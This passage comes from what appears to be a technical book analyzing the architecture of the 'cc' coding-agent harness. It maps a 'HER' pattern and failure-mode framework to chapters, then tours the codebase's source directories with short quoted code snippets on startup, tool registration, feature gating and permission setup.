3. **Control flow** -- how the subsystem operates, with at least one mermaid diagram and at least one quoted code snippet showing a key function body
4. **Edge cases and failure modes** -- what goes wrong and how cc handles it
5. **Where cc diverges from the published pattern** -- gaps and differences from the HER framework
6. **Developer takeaways for building a long-running agent** -- actionable lessons

This structure is not merely organizational; it enforces a specific analytical method. Every subsystem is examined from its contracts (what it promises), its control flow (how it delivers), its failure modes (where it breaks), its divergences (where theory and practice part), and its takeaways (what to build differently). This method is designed to produce chapters that are useful to practitioners, not merely descriptive.

## Control flow

The book supports three primary reading paths:



**Sequential path**: Read Parts 1 through 10 in order. This path builds understanding from foundations upward. Part 1 establishes why harness engineering matters and how to read the book. Part 2 walks through the cc startup sequence from `bun run` to the running query loop. Parts 3-7 each address a major subsystem: tools, subagents, context and memory, safety, and interaction surfaces. Part 8 covers long-running work patterns (plan mode, worktrees, cron, remote agents). Part 9 addresses observability and security. Part 10 synthesizes the entire analysis into a reference architecture and roadmap. This path is recommended for anyone building a harness from scratch.

**Subsystem path**: Jump to the part that addresses the subsystem you are working on. Each chapter is self-contained enough to be read in isolation, with cross-references to prerequisite chapters noted at the start. If you are debugging a permission issue, go directly to Part 6. If you are implementing a multi-agent coordinator, go directly to Part 4. The subsystem path trades narrative coherence for immediate relevance.

**HER path**: Follow the cross-reference table below to see how each HER pattern, failure mode, or best practice maps to specific cc chapters and source files. This path is for researchers who want to compare theory to practice, or for practitioners who have encountered a specific failure mode and want to see how cc addresses it. The HER path is the most targeted but also the most fragmented; it assumes that the reader can fill in context from the theoretical framework without the narrative scaffolding.

The cross-reference from HER patterns to chapters is:

```mermaid
flowchart TD
    subgraph "HER Patterns (Section 5)"
        P1[Pattern 1: Persistent Instruction File]
        P2[Pattern 2: Scoped Context Assembly]
        P3[Pattern 3: Tiered Memory]
        P4[Pattern 4: Dream Consolidation]
        P5[Pattern 5: Progressive Context Compaction]
        P6[Pattern 6: Explore-Plan-Act Loop]
        P7[Pattern 7: Context-Isolated Subagents]
        P8[Pattern 8: Fork-Join Parallelism]
        P9[Pattern 9: Progressive Tool Expansion]
        P10[Pattern 10: Command Risk Classification]
        P11[Pattern 11: Single-Purpose Tool Design]
        P12[Pattern 12: Deterministic Lifecycle Hooks]
    end

    P1 --> C31[Ch 31: CLAUDE.md and Settings]
    P2 --> C09[Ch 9: System Prompts]
    P3 --> C26[Ch 26: Memdir]
    P4 --> C24[Ch 24: Dream Tasks]
    P5 --> C28[Ch 28: Compaction]
    P6 --> C45[Ch 45: Plan Mode V2]
    P7 --> C18[Ch 18: Agent Tool]
    P8 --> C46[Ch 46: Worktrees]
    P9 --> C15[Ch 15: Search and LSP Tools]
    P10 --> C33[Ch 33: Bash Classifier]
    P11 --> C11[Ch 11: Anatomy of a Tool]
    P12 --> C36[Ch 36: Hook Schema]
```

## Edge cases and failure modes

The cross-reference table for HER failure modes (Section 6) maps each of the 17 failure modes to the cc chapter(s) that address how cc defends against (or fails to defend against) that mode:

| Failure Mode | HER Section | Primary Chapter(s) |
|-------------|-------------|---------------------|
| Context Rot | 6.1 | Ch 28 (Compaction), Ch 7 (Query Loop) |
| Premature Completion | 6.2 | Ch 45 (Plan Mode) |
| Self-Evaluation Bias | 6.3 | Ch 27 (Session Memory) |
| Placeholder Implementations | 6.4 | Ch 13 (File System Tools) |
| Context Anxiety | 6.5 | Ch 19 (Execution Modes) |
| Silent Failures | 6.6 | Ch 12 (Tool Dispatch Pipeline), Ch 51 (Diagnostics) |
| Infinite Loops | 6.7 | Ch 7 (Query Loop), Ch 10 (Token Budgets) |
| Tool Explosion | 6.8 | Ch 15 (Search and LSP Tools) |
| Compounding Bugs Across Sessions | 6.9 | Ch 29 (Session Persistence) |
| Yak Shaving / Scope Creep | 6.10 | Ch 22 (Tasks) |
| Cost Explosion | 6.11 | Ch 10 (Token Budgets), Ch 50 (Analytics) |
| Hallucinated Tool Calls | 6.12 | Ch 16 (Web Tools), Ch 12 (Tool Dispatch) |
| Prompt Injection | 6.13 | Ch 52 (Threat Model) |
| Model Regression | 6.14 | Ch 8 (Streaming API) |
| Data Leakage Between Contexts | 6.15 | Ch 19 (Execution Modes), Ch 26 (Memdir) |
| Checkpoint-Restore Side Effects | 6.16 | Ch 29 (Session Persistence), Ch 52 (Threat Model) |
| Goal Misinterpretation | 6.17 | Ch 45 (Plan Mode), Ch 17 (TodoWrite/AskUser) |

Some failure modes map to multiple chapters because cc's defense is distributed across subsystems. Context Rot (6.1), for example, is addressed by the compaction hierarchy (Chapter 28) but also by the query loop's token budget checks (Chapter 7) and the auto-compact trigger (Chapter 28). The cross-reference table points to the primary chapter, but the full defense often spans multiple subsystems.

Some failure modes are not fully addressed by cc. Model Regression (6.14), for instance, is partially addressed by cc's model routing and fallback system (Chapter 8), but cc does not maintain a regression test suite against model behavior changes. Data Leakage Between Contexts (6.15) is partially addressed by subagent context isolation (Chapter 19), but cc's file-based communication (recommended in HER section 9.3) inherently persists data to disk, creating leakage risk. These gaps are documented in the relevant chapters and are addressed in the synthesis (Chapter 56).

The cross-reference for HER best practices (Section 20) maps the 12 core principles to chapters:

| Best Practice | HER Section | Primary Chapter(s) |
|--------------|-------------|---------------------|
| Context windows are the constraint | 20.1 | Ch 28 (Compaction), Ch 10 (Token Budgets) |
| Separate generation from evaluation | 20.2 | Ch 21 (Coordinator), Ch 27 (Session Memory) |
| One task per session | 20.3 | Ch 22 (Tasks) |
| Verify before building | 20.4 | Ch 45 (Plan Mode) |
| Wire in fast feedback loops | 20.5 | Ch 15 (LSP Tools), Ch 12 (Tool Dispatch) |
| Repository is single source of truth | 20.6 | Ch 29 (Session Persistence), Ch 13 (File Tools) |
| Humans steer, agents execute | 20.7 | Ch 32 (Permissions), Ch 17 (AskUser) |
| Expect eventual consistency | 20.8 | Ch 28 (Compaction), Ch 7 (Query Loop) |
| Simplify relentlessly | 20.9 | Ch 4 (Runtime Stack), Ch 1 (Overview) |
| Control costs actively | 20.10 | Ch 10 (Token Budgets), Ch 50 (Analytics) |
| Observe everything | 20.11 | Ch 50 (Analytics), Ch 51 (Diagnostics) |
| Secure by default | 20.12 | Ch 52 (Threat Model), Ch 32 (Permissions) |

## Where cc diverges from the published pattern

The published HER literature treats patterns as discrete, composable units. cc's implementation reveals that patterns interact in ways the literature does not address. For example, Pattern 5 (Progressive Context Compaction) and Pattern 3 (Tiered Memory) are deeply intertwined in cc's codebase: compaction triggers memory extraction, and memory retrieval populates the context that compaction must manage. Treating them as independent patterns would miss the critical coupling point where context is both consumed and produced.

Similarly, the 12 best practices from HER section 20 are presented as independent principles. In cc's implementation, Principle 1 ("context windows are the constraint; structured artifacts are the solution") and Principle 6 ("repository is single source of truth") are in tension: structured artifacts must be persisted to the repository, but the repository is itself a source of context that can overflow the window. The harness must manage this tension explicitly, and cc does so through its compaction hierarchy and memdir system.

The HER also presents the session protocol as a linear sequence: ORIENT, SETUP, VERIFY, SELECT, IMPLEMENT, TEST, UPDATE, EXIT. cc's implementation is closer to a state machine than a linear pipeline: the query loop can cycle through IMPLEMENT and TEST multiple times, compaction can interrupt at any point, and human-in-the-loop approvals can divert the flow at any stage. The linear protocol is a useful mental model but does not capture the actual control flow of a production harness.

A fourth divergence concerns the relationship between the failure mode index and the best practice index. The HER presents these as separate taxonomies, but in cc they form a single defensive surface: every failure mode has a corresponding best practice that mitigates it, and every best practice exists because a failure mode was observed. The cross-reference tables in this chapter make this bidirectional relationship explicit. Context Rot (6.1) is mitigated by the compaction best practice (20.1); Silent Failures (6.6) are mitigated by the observation best practice (20.11). A harness builder who treats the two taxonomies as independent will miss the feedback loop between observing failures and refining practices that characterizes mature harness engineering.

A fifth divergence lies in the scope of the 12 HER patterns themselves. The patterns were derived from reverse-engineering a single product (cc), and other platforms make fundamentally different tradeoffs: Cursor embeds the harness in an IDE with rich UI affordances, Devin runs fully autonomously, and OpenAI Codex uses sandboxed cloud environments. The patterns are useful as concrete examples, but they should not be treated as universal harness principles. Chapter 53 examines each pattern in detail and notes where cc-specific assumptions limit generalizability.

## Developer takeaways for building a long-running agent

1. **Use the reading path that matches your goal.** Sequential for the whole system, subsystem for debugging, HER for theory-to-practice comparison.

2. **Cross-references are bidirectional.** Every technical chapter references HER patterns and other chapters. Following references in either direction yields insight.

3. **The failure mode table is a debugging index.** When a production agent exhibits a failure mode, the table points directly to the relevant chapter -- or where cc itself is vulnerable.

4. **Pattern interactions matter more than individual patterns.** cc demonstrates that patterns are interacting subsystems. The most important architectural decisions are at the coupling points.

5. **Citation conventions enable verification.** Every factual claim is cited with a file path and line number. If a citation drifts, the claim should be re-verified.

6. **Unaddressed failure modes are as informative as the coverage.** The gaps in cc's defenses indicate where the next generation of harnesses must improve.
# A Guided Tour of the Repository

## Overview

The cc codebase is organized into 35 top-level directories under `src/`. Each directory serves a distinct role in the harness, and understanding the directory structure is the first step to understanding the architecture. This chapter maps every major folder, answers what lives there and why, identifies connections to neighboring directories, and maps the HER 8-layer reference architecture onto the cc folder layout. The goal is to provide the reader's orientation map before the deep dives in subsequent chapters.

The codebase was made public through an npm sourcemap leak in March 2026. The `README.md` in the repository documents the leak and provides a high-level overview, noting that cc is "not a simple CLI" but rather "a massive 785KB `main.tsx` entry point featuring a custom React terminal renderer (Ink), 40+ tools, and complex multi-agent orchestration." This chapter goes deeper than the README, examining each directory as a subsystem within the harness.

For the reader approaching cc for the first time, the directory tree can feel overwhelming. Thirty-five directories under `src/` alone, plus a sprawling `src/utils/` that absorbs cross-cutting concerns from every layer. The key to navigation is understanding that the codebase is organized as three distinct, concentric rings: the outer ring of entry points and UI (`src/entrypoints/`, `src/screens/`, `src/ink/`, `src/hooks/`), the middle ring of domain logic (`src/tools/`, `src/services/`, `src/coordinator/`, `src/memdir/`, `src/tasks/`), and the inner ring of shared infrastructure (`src/utils/`, `src/state/`, `src/bootstrap/`). Dependencies flow inward: the outer ring depends on the middle ring, the middle ring depends on the inner ring, and the inner ring depends on nothing except external packages. There are exceptions to this rule -- `src/utils/` sometimes imports from domain modules via lazy `require()` -- but the general pattern holds.

## Data structures and contracts

The top-level directory tree is the most important structural document in the codebase. The following table maps each directory to its role and the largest file it contains (from `loc-hints/files.json`):

| Directory | Largest File (LOC) | Role in Harness |
|-----------|-------------------|-----------------|
| `src/entrypoints/` | cli.tsx (302) | Bootstrap entry, fast-path routing |
| `src/main.tsx` | (4,683) | Command router, CLI definition, session setup |
| `src/query/` | query.ts (1,729) | The query loop -- heartbeat of the agent |
| `src/QueryEngine.ts` | (1,295) | Core LLM logic |
| `src/Tool.ts` | (792) | Base tool definitions and buildTool helper |
| `src/tools.ts` | (389) | Tool registry and getTools() |
| `src/tools/` | varies | 40+ agent tools, each with own subdirectory |
| `src/services/` | claude.ts (3,419) | Backend services (API, MCP, analytics, compact, dreams) |
| `src/coordinator/` | coordinatorMode.ts (369) | Multi-agent orchestration (Swarm) |
| `src/bridge/` | bridgeMain.ts (2,999) | IDE integration layer (VS Code, JetBrains) |
| `src/buddy/` | sprites.ts (514) | Tamagotchi companion system |
| `src/ink/` | ink.tsx (1,722) | Custom React terminal renderer |
| `src/memdir/` | memdir.ts (507) | Tiered memory on disk |
| `src/state/` | AppStateStore.ts (569) | Redux-like store |
| `src/utils/` | hooks.ts (5,022) | Shared utilities, permissions, hooks, settings |
| `src/hooks/` | useTypeahead.tsx (1,384) | React hooks (typeahead, voice, keybindings, canUseTool) |
| `src/screens/` | REPL.tsx (5,005) | Terminal screens (REPL, doctor) |
| `src/components/` | PromptInput.tsx (2,338) | Reusable UI components |
| `src/constants/` | prompts.ts (914) | System prompt assembly |
| `src/schemas/` | hooks.ts (222) | Zod schemas for hook configuration |
| `src/types/` | message.ts | TypeScript type definitions |
| `src/tasks/` | RemoteAgentTask.tsx (855) | Task types (Local, Remote, Dream) |
| `src/skills/` | loadSkillsDir.ts (1,086) | Skill discovery and loading |
| `src/commands.ts` | (754) | Slash command registry |
| `src/plugins/` | varies | Plugin system |
| `src/migrations/` | varies | Settings migration scripts |
| `src/assistant/` | sessionHistory.ts (87) | KAIROS proactive assistant |
| `src/bootstrap/` | state.ts (1,758) | Session bootstrap state |
| `src/voice/` | varies | Voice input integration |
| `src/vim/` | varies | Vim keybinding emulation |

The `src/Tool.ts` file defines the base contract that every tool implements. The key types establish the tool's input schema, execution method, and concurrency model:

```typescript
// src/Tool.ts:L15-L21
export type ToolInputJSONSchema = {
  [x: string]: unknown
  type: 'object'
  properties?: {
    [x: string]: unknown
  }
}
```

Every tool must provide a Zod-validated input schema conforming to this shape, a `call()` method, and optional concurrency flags. The `src/tools.ts` file registers all tools via `getTools()`, using the `feature()` gate from `bun:bundle` to conditionally include internal-only tools:

```typescript
// src/tools.ts:L16-L19
const REPLTool =
  process.env.USER_TYPE === 'ant'
    ? require('./tools/REPLTool/REPLTool.js').REPLTool
    : null
```

The `src/tools/` directory is the deepest subtree. It contains over 40 subdirectories, one per tool, and each tool subdirectory follows a consistent contract. The directory contract includes:

- A main implementation file (e.g., `BashTool.tsx` at 1,143 LOC)
- A `prompt.ts` defining the tool's description for the model
- Optionally a `UI.tsx` for rendering tool output in the terminal
- Supporting modules for security, permissions, and validation

The Bash tool has the richest supporting cast: `bashSecurity.ts` (2,592 LOC), `bashPermissions.ts` (2,621 LOC), `pathValidation.ts` (1,303 LOC), `readOnlyValidation.ts` (1,990 LOC), `commandSemantics.ts` (140 LOC), `destructiveCommandWarning.ts` (102 LOC), `modeValidation.ts` (115 LOC), and `shouldUseSandbox.ts` (153 LOC). This depth reflects the risk profile of shell command execution -- the single most dangerous operation the harness permits, and therefore the most heavily guarded.

Other tools are simpler. The `GlobTool/` directory has only `GlobTool.ts` (198 LOC), `prompt.ts` (7 LOC), and `UI.tsx` (62 LOC). The variation in depth reflects the variation in risk: a tool that reads files and searches for patterns carries less risk than a tool that executes arbitrary shell commands, and the directory structure reflects this proportionality.

## Control flow

The dependency graph between directories flows inward from entry points toward shared utilities:



The `src/entrypoints/cli.tsx` file is the outermost layer. It performs fast-path routing before loading `src/main.tsx`. The entry point's first import establishes the feature flag system that governs which code paths exist in any given build:

```typescript
// src/entrypoints/cli.tsx:L1
import { feature } from 'bun:bundle';
```

After the fast-path checks (version, dump-system-prompt, daemon worker, bridge mode), cli.tsx falls through to `init.ts` and then `main.tsx`. The main file is 4,683 lines long and serves as the central dispatch point that wires together the entire harness:

```typescript
// src/main.tsx:L9-L20
// These side-effects must run before all other imports:
// 1. profileCheckpoint marks entry before heavy module evaluation begins
// 2. startMdmRawRead fires MDM subprocesses (plutil/reg query) so they run in
//    parallel with the remaining ~135ms of imports below
// 3. startKeychainPrefetch fires both macOS keychain reads (OAuth + legacy API
//    key) in parallel — isRemoteManagedSettingsEligible() otherwise reads them
//    sequentially via sync spawn inside applySafeConfigEnvironmentVariables()
//    (~65ms on every macOS startup)
import { profileCheckpoint, profileReport } from './utils/startupProfiler.js';
```

The import list in `src/main.tsx` is the most revealing map of the codebase's structure. Every top-level directory appears in these imports. The side-effect imports at the top of the file fire MDM reads and keychain prefetches in parallel with the remaining module evaluation, shaving approximately 65ms off every macOS startup.

The following classDiagram shows the top-level modules and their relationships, making the architecture visible at a glance:



The `src/services/` directory is the backend layer. It contains the Anthropic API wrapper (`src/services/api/claude.ts` at 3,419 LOC), the MCP client (`src/services/mcp/client.ts` at 3,348 LOC), the compaction system (`src/services/compact/`), the auto-dream service (`src/services/autoDream/`), the session memory service (`src/services/SessionMemory/`), analytics (`src/services/analytics/`), and the LSP server manager (`src/services/lsp/`). These services are consumed by the query loop and the tool system, and they depend on the shared utilities in `src/utils/`.

The `src/services/` directory is organized by capability rather than by HER layer. This means that a single service directory can span multiple HER layers. For example, `src/services/compact/` implements Layer 3 (Context Engineering) through its compaction hierarchy, but it also touches Layer 6 (Cost and Observability) through its token-budget-aware triggers. The `src/services/api/` directory implements the Anthropic API wrapper (Layer 2, Session Management) but also includes cost tracking (Layer 6) through `usage.ts` (63 LOC) and error handling (Layer 5, Safety) through `errors.ts` (1,207 LOC). This cross-layer organization is pragmatic -- the code is organized by deployment unit rather than by architectural layer -- but it means that the HER mapping requires reading across directories.

The `src/hooks/` directory contains React hooks that are consumed by UI components. `useTypeahead.tsx` (1,384 LOC) implements the typeahead suggestion system that provides auto-completion for commands, file paths, and tool names. `useVoice.ts` (1,144 LOC) implements voice input integration. `useGlobalKeybindings.tsx` (248 LOC) manages keyboard shortcuts. `useCanUseTool.tsx` (203 LOC) is the permission decision hook that evaluates whether a tool call should be allowed, denied, or deferred to the user. These hooks are the interface layer between the UI and the harness's defensive infrastructure.

The `src/screens/` directory contains the terminal screen definitions. `REPL.tsx` (5,005 LOC) is the largest screen and the primary user interface. It manages the prompt input, message display, tool output rendering, and the overall terminal layout. The REPL screen is the user's primary touchpoint with the harness, and its complexity reflects the breadth of interaction patterns it must support: typing, scrolling, searching, selecting, interrupting, and resuming.

The `src/utils/` directory is the widest dependency in the graph. Nearly every other directory imports from it. It contains the permission system (`src/utils/permissions/`), the hook system (`src/utils/hooks/`), settings management (`src/utils/settings/`), message utilities (`src/utils/messages.ts` at 5,512 LOC -- the largest single file in the codebase), and dozens of shared utilities. The `src/utils/permissions/` subdirectory alone contains 10 files, including `permissions.ts` (1,486 LOC), `filesystem.ts` (1,777 LOC), `yoloClassifier.ts` (1,495 LOC), and `bashClassifier.ts` (61 LOC).

The `src/state/` directory contains the Redux-like store that underpins the entire application. `AppStateStore.ts` (569 LOC) defines the application state shape, `AppState.tsx` (199 LOC) provides the React context, and `onChangeAppState.ts` (171 LOC) handles state change propagation. The store is initialized during bootstrap and accessed throughout the harness via React hooks and direct imports.



The mapping between HER's 8-layer reference architecture and cc's directories is instructive. The reference architecture (HER section 21) defines eight aspirational layers. No public implementation covers all eight, and cc is no exception. The mapping reveals both coverage and gaps:

**Layer 1 (Task Infrastructure)** maps to `src/utils/tasks.ts` (862 LOC) and the task tool family (`TaskCreateTool`, `TaskListTool`, `TaskGetTool`, `TaskUpdateTool`, `TaskStopTool`). cc implements append-only task records with status transitions, dependency tracking, and filesystem locking. The `DEFAULT_TASKS_MODE_TASK_LIST_ID` and `TASK_STATUSES` constants are imported at the top of `src/main.tsx`, indicating how central tasks are to the harness.

```typescript
// src/main.tsx:L134
import { DEFAULT_TASKS_MODE_TASK_LIST_ID, TASK_STATUSES } from './utils/tasks.js';
```

**Layer 2 (Session Management)** maps to `src/utils/sessionStorage.ts` (5,105 LOC) and `src/entrypoints/cli.tsx`. cc implements a startup protocol, clean exit protocol, and session-to-session handoff via JSONL files. The session storage module is the second-largest file in the codebase, reflecting the complexity of session persistence and resume.

**Layer 3 (Context Engineering)** maps to `src/memdir/`, `src/services/compact/`, and `src/utils/messages.ts`. This is cc's deepest layer -- five-stage compaction, tiered memory, and observation masking are all implemented. The `src/services/compact/` directory alone contains eight files, from `compact.ts` (1,705 LOC) to `compactWarningHook.ts` (16 LOC).

**Layer 4 (Quality Gates)** maps to `src/services/lsp/` and `src/tools/ToolSearchTool/`. cc has LSP integration for real-time type checking, but the back-pressure stack (linter, tests, type checker) is primarily external -- the harness wires in the feedback loops rather than providing them.

**Layer 5 (Safety and Security)** maps to `src/utils/permissions/` and `src/tools/BashTool/bashSecurity.ts`. cc implements permission tiers, destructive operation confirmation, loop detection, and input sanitization.

**Layer 6 (Cost and Observability)** maps to `src/services/analytics/` and `src/cost-tracker.ts`. cc has per-session cost tracking and real-time token metering.

**Layer 7 (Multi-Agent Coordination)** maps to `src/coordinator/` and `src/tools/AgentTool/`. cc implements generator-evaluator patterns, model routing, and file-based inter-agent communication.

**Layer 8 (Learning and Adaptation)** maps to `src/services/autoDream/` and `src/services/SessionMemory/`. cc implements dream consolidation and memory extraction, but does not yet have harness configuration versioning or A/B testing.

The `src/commands.ts` file (754 LOC) at the top level is worth noting separately. It contains the slash command registry, which maps user-invocable commands (like `/help`, `/compact`, `/clear`) to either prompt templates or callback functions. The slash command system is cc's primary user-facing control surface, and the registry pattern (a flat list of command definitions, each with a name, description, and handler) is straightforward to replicate in a new harness.

The `src/constants/prompts.ts` (914 LOC) file is another top-level file of note. It assembles the system prompt from multiple fragments: base instructions, environment context, tool descriptions, skill instructions, memory context, hook definitions, and effort/plan mode modifiers. This file is the single most important artifact for understanding what the model "knows" when it begins a query, and it is the subject of Chapter 9's deep dive.

## Edge cases and failure modes

The directory structure reveals architectural tensions and several edge cases that a harness builder should be aware of:

**The `src/utils/` monolith.** At 5,022 lines for `src/utils/hooks.ts` alone, plus thousands more across `src/utils/permissions/`, `src/utils/settings/`, and `src/utils/messages.ts`, the utils directory has become a catch-all. This is a common pattern in growing codebases, but it makes the dependency graph difficult to reason about. Any directory can import from `utils/`, and `utils/` imports from nearly everywhere else, creating potential circular dependency risks that cc manages through lazy `require()` calls. The `src/main.tsx:L69-L71` shows an explicit comment about this:

```typescript
// src/main.tsx:L69-L71
// Lazy require to avoid circular dependency: teammate.ts -> AppState.tsx -> ... -> main.tsx
/* eslint-disable @typescript-eslint/no-require-imports */
const getTeammateUtils = () => require('./utils/teammate.js') as typeof import('./utils/teammate.js');
```

The circular dependency problem is real and pervasive. The `teammate.js` module imports from `AppState.tsx`, which imports from modules that ultimately import from `main.tsx`. The lazy `require()` pattern breaks this cycle, but it does so at the cost of type safety: the `as typeof import(...)` cast assumes the module exists and has the expected shape, which is only verified at runtime.

**The `src/main.tsx` size.** At 4,683 LOC, this file is the largest single module in the codebase. It handles CLI definition, command routing, session setup, resume logic, tool loading, permission initialization, and dozens of other responsibilities. This concentration of logic makes the file difficult to navigate but ensures that the startup sequence is linear and auditable. The `src/main.tsx:L120-L121` imports show the permission initialization chain:

```typescript
// src/main.tsx:L120-L121
import { PERMISSION_MODES } from './utils/permissions/PermissionMode.js';
import { checkAndDisableBypassPermissions, getAutoModeEnabledStateIfCached, initializeToolPermissionContext, initialPermissionModeFromCLI, isDefaultPermissionModeAuto, parseToolListFromCLI, removeDangerousPermissions, stripDangerousPermissionsForAutoMode, verifyAutoModeGateAccess } from './utils/permissions/permissionSetup.js';
```

A single import from `permissionSetup.js` brings in nine functions. This density of imports is typical of `main.tsx` and reflects its role as the central wiring point. Every subsystem registers itself here.

**Feature-gated directories.** Several directories exist behind feature flags: `src/coordinator/` (COORDINATOR_MODE), `src/assistant/` (KAIROS), and various sub-features. The feature flags are checked via `feature('FLAG_NAME')` from `bun:bundle`, which enables dead-code elimination at build time. This means the external build may not include these directories at all. The `src/main.tsx:L74-L76` shows the pattern for the coordinator:

```typescript
// src/main.tsx:L74-L76
// Dead code elimination: conditional import for COORDINATOR_MODE
/* eslint-disable @typescript-eslint/no-require-imports */
const coordinatorModeModule = feature('COORDINATOR_MODE') ? require('./coordinator/coordinatorMode.js') as typeof import('./coordinator/coordinatorMode.js') : null;
```

This pattern is repeated for KAIROS, the daemon system, bridge mode, and other internal-only features. Each `feature()` check is a compile-time gate: if the feature is not enabled, the `require()` call and the entire module it loads are eliminated from the output.

**The `src/buddy/` directory.** The Tamagotchi companion system (buddy) sits in its own directory with sprites (514 LOC) and companion (133 LOC) files. This is a UX warmth feature that does not interact with the core harness subsystems. Its isolation is both a strength (no risk of contaminating the core) and a weakness (it is disconnected from the harness's defensive mechanisms).

**The PowerShell mirror.** `src/tools/PowerShellTool/` mirrors much of `src/tools/BashTool/` with Windows-specific implementations: `powershellSecurity.ts` (1,090 LOC), `powershellPermissions.ts` (1,648 LOC), `pathValidation.ts` (2,049 LOC), `readOnlyValidation.ts` (1,823 LOC). This duplication is a maintenance burden but reflects the legitimate differences between Unix and Windows command security models.

**The `src/services/mcp/` depth.** The MCP (Model Context Protocol) subsystem spans multiple files: `client.ts` (3,348 LOC), `config.ts` (1,578 LOC), `auth.ts` (2,465 LOC), `types.ts` (258 LOC), and `MCPConnectionManager.tsx` (72 LOC). Together these represent over 7,700 lines of code for external tool integration. This depth reflects the complexity of the MCP protocol: server lifecycle management, reconnection strategy, OAuth authentication, and elicitation handling all require dedicated implementation. The `src/entrypoints/mcp.ts` (196 LOC) provides the MCP server entry point, making cc itself an MCP server when run in that mode.

